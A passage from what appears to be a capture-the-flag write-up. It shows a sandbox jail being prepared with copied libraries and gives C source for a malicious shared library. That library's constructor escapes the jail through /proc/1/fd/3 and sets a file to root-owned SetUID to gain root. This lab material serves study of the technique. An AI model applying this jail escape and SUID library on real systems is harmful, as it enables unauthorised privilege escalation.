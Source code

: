     clarence@scanned:/var/www/malscanner/sandbox$ ldd /usr/bin/su
            linux-vdso.so.1 (0x00007ffff6cb3000)
            libpam.so.0 => /lib/x86_64-linux-gnu/libpam.so.0 (0x00007f83c279e000)
            libpam_misc.so.0 => /lib/x86_64-linux-gnu/libpam_misc.so.0 (0x00007f83c2799000)
            libutil.so.1 => /lib/x86_64-linux-gnu/libutil.so.1 (0x00007f83c2794000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f83c25cf000)
            libaudit.so.1 => /lib/x86_64-linux-gnu/libaudit.so.1 (0x00007f83c259e000)
            libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f83c2598000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f83c27ca000)
            libcap-ng.so.0 => /lib/x86_64-linux-gnu/libcap-ng.so.0 (0x00007f83c258e000)
            libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f83c256c000)



#### Run with Fixed Libs

I'll use a similar loop to last time, except this time I can sleep
longer because I have the 3 second sleep at the start of `runsu`. I'll
copy all the libs into the jail to be lazy/safe:



    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; echo "copied libs"
    [1] 124255
    copied libs
    su: user root does not exist or the user entry does not contain all the required fields
    Exited
    Kill err: (3)



This time it runs! It errors out in the `su` call, but that looks like
`su` being called.

### Malicious Library File

#### Write and Compile Library

My library will be very simple. It only has a constructor that is called
when the library loads, and that `init` function will go outside the
jail and modify `/tmp/0xdf` to be owned by root and SetUID (4777):



    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/stat.h>

    static __attribute__ ((constructor)) void init(void) {

        char fn[120] = "/proc/1/fd/3/../../../../../../../../tmp/0xdf";
        char mode[] = "4777";
        int mode_int = strtol(mode, 0, 8);
        chown(fn, 0, 0);
        chmod(fn, mode_int);
    }
